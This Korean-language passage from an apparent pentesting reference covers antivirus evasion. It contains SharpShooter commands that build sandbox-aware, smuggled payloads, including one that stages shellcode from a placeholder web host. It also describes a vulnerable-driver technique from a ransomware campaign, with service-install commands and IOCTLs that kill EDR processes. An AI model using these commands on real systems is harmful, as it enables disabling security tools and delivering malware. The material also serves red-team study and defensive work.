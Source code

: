 
### python을 사용한 build injectors 예제:

- [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### 기타 도구
```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```
### 추가

- [https://github.com/Seabreg/Xeexe-TopAntivirusEvasion](https://github.com/Seabreg/Xeexe-TopAntivirusEvasion)

## Bring Your Own Vulnerable Driver (BYOVD) – 커널 공간에서 AV/EDR 무력화

Storm-2603는 랜섬웨어를 내려놓기 전에 엔드포인트 보호를 비활성화하기 위해 **Antivirus Terminator**라는 작은 콘솔 유틸리티를 활용했습니다. 이 도구는 **자체적으로 취약하지만 *서명된* 드라이버**를 포함하여 이를 악용해 Protected-Process-Light (PPL) AV 서비스조차 차단할 수 없는 특권 커널 작업을 수행합니다.

핵심 요점
1. **서명된 드라이버**: 디스크에 배달된 파일은 `ServiceMouse.sys`지만, 실제 바이너리는 Antiy Labs의 “System In-Depth Analysis Toolkit”에 포함된 정당하게 서명된 드라이버 `AToolsKrnl64.sys`입니다. 드라이버가 유효한 Microsoft 서명을 가지고 있기 때문에 Driver-Signature-Enforcement (DSE)가 활성화된 상태에서도 로드됩니다.
2. **서비스 설치**:
```powershell
sc create ServiceMouse type= kernel binPath= "C:\Windows\System32\drivers\ServiceMouse.sys"
sc start  ServiceMouse
```
첫 번째 줄은 드라이버를 **커널 서비스**로 등록하고 두 번째 줄은 이를 시작하여 `\\.\ServiceMouse`가 유저랜드에서 접근 가능하도록 만듭니다.
3. **드라이버가 노출하는 IOCTL**
| IOCTL code | Capability                              |
|-----------:|-----------------------------------------|
| `0x99000050` | PID로 임의 프로세스를 종료 (Defender/EDR 서비스 종료에 사용) |
| `0x990000D0` | 디스크에 있는 임의 파일 삭제 |
| `0x990001D0` | 드라이버 언로드 및 서비스 제거 |
